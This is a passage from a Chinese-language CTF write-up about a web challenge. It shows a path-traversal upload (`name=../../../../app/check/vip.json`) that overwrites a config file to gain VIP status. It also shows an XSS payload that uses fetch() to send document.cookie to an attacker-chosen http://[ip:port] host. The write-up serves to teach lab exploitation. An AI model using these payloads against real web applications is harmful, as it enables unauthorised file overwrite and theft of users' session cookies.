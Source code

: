可以得到 `_min_file_size_for_dl` 的值是 16 ，也就是说，只要我们文本的内容长度少于16，就不会对文件进行检测。

在`/check`路由中，对vip的判断是`"VIP" if isSVIP else "GUEST"`，只要 `isSVIP`不为空或者不是 `False`，即可通过判断。

没有过滤 `..` ，可以用相对路径跳回根目录再接着往下写。

```
/upload

POST:
name=../../../../app/check/vip.json&content={"isSVIP":"1"}
```

访问 `/ckeck`，已经成为 vip 了

<img src="assets/img/2024/1/image-20240802154917985.png" alt="image-20240802154917985" style="zoom:67%;" />

XSS 的话我们上传一个 html 到靶机中即可。

```
/upload

POST:
name=1.html&content=<script>fetch("http://[ip:port]/?flag="%2bdocument.cookie)</script>
```

![image-20240802175346333](assets/img/2024/1/image-20240802175346333.png)

------



### RE
